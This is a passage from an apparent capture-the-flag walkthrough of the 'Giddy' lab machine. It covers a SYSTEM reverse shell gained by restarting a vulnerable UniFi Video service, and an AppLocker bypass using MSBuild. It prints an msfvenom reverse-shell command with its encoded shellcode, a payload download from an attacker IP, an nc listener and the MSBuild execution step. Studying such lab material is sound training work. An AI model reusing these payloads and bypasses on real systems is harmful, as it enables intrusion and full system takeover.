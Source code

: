 The only thing left to do now is to set up a nc listener and restart the service so that we can get a shell. PowerShell has a built-in module called `Restart-Service` which expects the name of the service that should be restarted. Reading the exploit-db article again we can see that the service should be called "Ubiquiti UniFi Video" so time to give that a try:
```
PS C:\users\Stacy\Downloads> Restart-Service -Name "Ubiquiti UniFi Video"
```

Looking back at our listener we can see that we get a reverse shell as NT AUTHORITY\SYSTEM and can read the root flag:

![230785205.png]({{site.baseurl}}/Images/Giddy/230785205.png)

## Getting a reverse shell with msfvenom using MSBuild AppLocker bypass:
An alternative way to get an earlier reverse shell as user and bypass the AppLocker restrictions applied to the web front end is to use an MSBuild vulnerability that allows it to execute arbitrary code while building a .csproj file.

Start off by downloading the template csproj xml file locally https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20shellcode.xml

Then use msfvenom to generate a standard reverse shell payload with an encoder:
```
root@kali: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=444 -f csharp -e x86/shikata_ga_nai
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of csharp file: 1810 bytes
byte[] buf = new byte[351] {
0xba,0xdf,0x1f,0x4a,0xd8,0xda,0xc8,0xd9,0x74,0x24,0xf4,0x5b,0x33,0xc9,0xb1,
0x52,0x83,0xeb,0xfc,0x31,0x53,0x0e,0x03,0x8c,0x11,0xa8,0x2d,0xce,0xc6,0xae,
...
0x29,0x9c,0xba,0x49,0x36,0xc9,0x4c,0xb5,0x87,0xa4,0x08,0xca,0x28,0x21,0x9d,
0xb3,0x54,0xd1,0x62,0x6e,0xdd,0xe1,0x28,0x32,0x74,0x6a,0xf5,0xa7,0xc4,0xf7,
0x06,0x12,0x0a,0x0e,0x85,0x96,0xf3,0xf5,0x95,0xd3,0xf6,0xb2,0x11,0x08,0x8b,
0xab,0xf7,0x2e,0x38,0xcb,0xdd };
```

Replace the existing shellcode variable with the new one from msfvenom and upload it to the target as a csproj:
```
PS C:\users\stacy\Downloads> Invoke-WebRequest "http://10.10.14.18/msbuildshell.xml" -OutFile "C:\users\stacy\Downloads\msbuildshell.csproj"
```

Once it is there, set up a local nc listener with `nc -nlvp 444`

and build the csproj :
```
PS C:\users\stacy\Downloads> C:\windows\Microsoft.NET\framework\v4.0.30319\MSBuild.exe C:\users\stacy\downloads\msbuildshell.csproj
```

Back on our attackers machine we can see that we have an unrestricted reverse shell as Stacy. From here we can follow the same path to get root.
